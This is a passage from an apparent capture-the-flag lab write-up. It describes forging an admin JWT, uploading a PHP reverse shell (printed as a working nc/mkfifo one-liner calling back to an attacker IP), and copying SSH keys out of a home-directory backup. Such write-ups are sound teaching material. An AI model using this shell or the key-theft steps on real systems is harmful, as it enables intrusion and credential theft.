 It outputs a self-signed jwt token with `admin_cap` set to `"1"`.

## Accessing Admin Panel

- Before I can use my forged jwt, I should make sure that the `private.key` is available and hosted on my server.
- Finally, I paste my token in the browser cookie and see that now, I have access to admin panel at `/admin`.

### Reading all available notes on the server

- There are 4 notes other than the ones created by me.
- Out of these 4, 2 are useful and hints that `php files are being executed on the server` & `a backup directory is been created and is present on the server.`

## Shell as `www-data`

- There is a file upload functionality on the server. Using this, I upload a php file that sends me a reverse shell when executed.

```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.23 9001 >/tmp/f &") ?>
```

- Uploading and Viewing this file works, and I get a shell as `www-data`

<hr>

## Recon as `www-data`

- There are 2 users on the box : `root` & `noah`
- I start from finding common files that are owned by `noah` but are readable to me, found nothing interesting.
- Next, I searched for source code of the python web application, didn't found it, probably running from inside a container. Presence of `docker` does supports that.
- I cannot view `root` or `noah` users' running processes.
- At this point, I can run `linpeas.sh` to enumerate further , but I remember the `note` on the website that hinted that a `backup` is present on the box.
- I check `/var/backups` directory and a `home.tar.gz` backup is present that I have read-access to.
- I extract this file, & notice this is `noah` user's home directory (without the `user.txt`).
```bash
$ tar -zxvf home.tar.gz
```

- The extracted dir contains `.ssh` folder with `keys` inside it. I copy these so I can ssh as `noah`.

<hr>

# Post-Exploitation

## Recon as `noah`
